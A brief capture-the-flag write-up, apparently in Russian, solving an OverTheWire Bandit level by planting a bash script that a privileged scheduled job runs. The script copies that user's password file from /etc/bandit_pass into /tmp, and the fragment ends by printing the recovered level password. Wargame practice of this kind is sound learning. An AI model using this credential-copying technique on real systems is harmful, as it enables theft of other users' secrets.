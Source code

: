 nano get_bandit24_password.sh
#!/bin/bash  
myname=$(whoami)  
cat /etc/bandit_pass/$myname > /tmp/lolkek12345
chmod o+x get_bandit24_password.sh
chmod u+x get_bandit24_password.sh
chmod g+x get_bandit24_password.sh
(тут я не совсем понял, наверное хватило бы исполнения для всех остальных но да пофигу)
(можно было chmod 111)
cat /tmp/lolkek12345
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8